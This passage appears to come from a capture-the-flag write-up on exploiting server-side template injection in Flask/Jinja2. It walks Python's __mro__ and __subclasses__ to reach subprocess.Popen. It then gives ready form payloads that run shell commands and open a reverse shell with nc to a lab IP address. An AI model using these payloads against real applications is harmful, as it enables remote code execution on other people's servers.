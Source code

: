 The `__subclasses__` attribute is defined as a method that “keeps a list of weak references to its immediate subclasses.” for each new-style class, and “returns a list of all those references still alive.”
Greatly simplified, `__mro__` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. So what’s the impact on the search for a greater exploit for SSTI in Flask/Jinja2? By starting with a new-type object, e.g. type str, we can crawl up the inheritance tree to the root object class using `__mro__`, then crawl back down to every new-style object in the Python environment using `__subclasses__`. With that, we can access every class loaded in the current python environment!

## Initial Foothold
The first thing we want to do it is to select a new-style object to use for accessing the object base class. We can simply use ‘ ‘, a blank string, object type str or any other Python object such as Integer (e.g. 1) or Bool (e.g True). Then, we can use the `__mro__` attribute to access the object’s inherited classes. Inject {{ ‘’.__class__.__mro__ }} as a payload into the SSTI vulnerability.

Now check the archive again!

```
(<class 'str'>, <class 'object'>)
```

Perfect! Now we can to access the object class element. So we simply append `[1]` to our payload, to access the element at index 1. Furthermore, we add `__subclasses__()`, to then see all the subclasses of the root object.

```
title={{''.__class__.__mro__[1].__subclasses__()}}&content=test&submit=Post
```

In the archive, we can now see a huge list of available classes. Now we have to figure out which one can be used to create a reverse shell.

Going through the available classes we see `subprocess.Popen`. This is the perfect class for our purposes!

Now we only have to figure out the exact index of the class. We can use python slicing for that.

e.g try;:

```
title={{''.__class__.__mro__[1].__subclasses__()[200:]}}
```

And repeat that until subprocess.Popen is the very first element in the list. Then you know the index of the class.

Afterwards you can do following:

```
# Make sure the file /tmp/f does not exist
title={{''.__class__.__mro__[1].__subclasses__()[407]('rm /tmp/f', shell=True, stdout=-1).communicate()}}&content=test&submit=Post

# Create the file and make it a filesystem node
title={{''.__class__.__mro__[1].__subclasses__()[407]('mknod /tmp/f p', shell=True, stdout=-1).communicate()}}&content=test&submit=Post

# Create Reverse shell
title={{''.__class__.__mro__[1].__subclasses__()[407]('/bin/sh 0</tmp/f | nc 10.10.14.26 4444 1>/tmp/f', shell=True, stdout=-1).communicate()}}&content=test&submit=Post
```
